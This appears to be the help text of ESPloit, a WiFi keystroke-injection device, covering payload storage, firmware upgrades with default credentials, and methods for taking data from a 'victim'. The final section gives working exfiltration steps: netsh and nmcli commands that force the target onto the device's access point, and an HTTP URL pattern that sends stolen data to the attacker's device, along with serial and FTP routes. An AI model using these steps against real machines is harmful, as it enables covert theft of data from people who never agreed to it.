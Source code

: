 Displays any data that has been collected from the victim using ESPloit's exfiltration methods.  
  
-----  
Format File System  
-----  
  
This will erase the contents of the SPIFFS file system including ALL Payloads that have been uploaded.  
Formatting may take up to 90 seconds.  
All current settings will be retained unless you reboot your device during this process.  
  
-----  
Upgrade ESPloit Firmware  
-----  
  
Authenticate using your username and password set in the configuration page.  
  
Default credentials to access the firmware upgrade page:  
username "admin"  
password "hacktheplanet"  
  
Select "Browse" choose the new firmware to be uploaded to the ESP-12S chip and then click "Upgrade".  
  
You will need to manually reset the device upon the browser alerting you that the upgrade was successful.  
  
If you are using this mode to swap the firmware loaded on the ESP-12S chip, and if the new firmware does not support this mode then you must reflash the ESP-12S manually by uploading the programmer sketch to the 32u4 chip and then flash the ESP-12S this way.
  
-----  
Exfiltrating Data  
-----  
  
Serial Exfiltration Method:  
Find the victims com port  
Set the baud rate to 38400  
Send the text "SerialEXFIL:" followed by the data to exfiltrate  
Exfiltrated data will be saved to the file SerialEXFIL.txt  
See the example payloads for more info  
  
WiFi Exfiltration Methods:  
To exfiltrate data using WiFi methods be sure ESPloit and Target machine are on the same network.  
Either set ESPloit to join the Target's network or set the Target to join ESPloit's AP.  
  
Example commands to force victim to connect to ESPloit's network(when set as AP):  
Windows: netsh wlan set hostednetwork mode=allow ssid="SSID-HERE" key="WIFI-PASSWORD-HERE"  
Linux: nmcli dev wifi connect SSID-HERE password WIFI-PASSWORD-HERE  
  
For HTTP exfiltration method point the target machine to the url listed below:  
http://ESPloit-IP-Here/exfiltrate?file=FILENAME.TXT&data=EXFILTRATED-DATA-HERE  
The victim is forced to access the URL above and now under "List Exfiltrated Data" you will see the file "FILENAME.TXT" containing the exfiltrated data "EXFILTRATED-DATA-HERE".  
  
For FTP exfiltration method use the credentials configured in the "Configure ESPloit" page. Also note that only Passive Mode FTP is supported.  
  
